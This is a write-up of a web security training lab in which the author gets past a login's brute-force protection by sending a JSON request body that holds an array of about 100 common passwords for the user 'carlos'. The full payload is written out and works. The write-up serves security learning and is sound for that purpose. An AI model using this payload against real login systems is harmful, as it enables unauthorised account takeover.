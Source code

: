 # Lab Broken brute-force protection, multiple credentials per request

>This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

>Victim's username: carlos

### Step 1
We are given the hint that multiple credentials can be sent per request...

The login POST request body looks like this:

`{
    "username":"carlos",
    "password":"f",
    "":""
}`

At first I tried adding the password parameter multiple times like:

`{
    "username":"carlos",
    "password":"a",
    "password":"b",
    "password":"c",
    "":""
}`

No luck... Then I tried to add all the passwords as a list, this worked! This was the request body that gave me access to `carlos`:

`{
"username":"carlos",
"password": [
"123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
"123321",
"mustang",
"1234567890",
"michael",
"654321",
"superman",
"1qaz2wsx",
"7777777",
"121212",
"000000",
"qazwsx",
"123qwe",
"killer",
"trustno1",
"jordan",
"jennifer",
"zxcvbnm",
"asdfgh",
"hunter",
"buster",
"soccer",
"harley",
"batman",
"andrew",
"tigger",
"sunshine",
"iloveyou",
"2000",
"charlie",
"robert",
"thomas",
"hockey",
"ranger",
"daniel",
"starwars",
"klaster",
"112233",
"george",
"computer",
"michelle",
"jessica",
"pepper",
"1111",
"zxcvbn",
"555555",
"11111111",
"131313",
"freedom",
"777777",
"pass",
"maggie",
"159753",
"aaaaaa",
"ginger",
"princess",
"joshua",
"cheese",
"amanda",
"summer",
"love",
"ashley",
"nicole",
"chelsea",
"biteme",
"matthew",
"access",
"yankees",
"987654321",
"dallas",
"austin",
"thunder",
"taylor",
"matrix",
"mobilemail",
"mom",
"monitor",
"monitoring",
"montana",
"moon",
"moscow"]
}`

I converted the given passwords into the above format with a quick script that I created. Check out `6-script.py` in this folder!
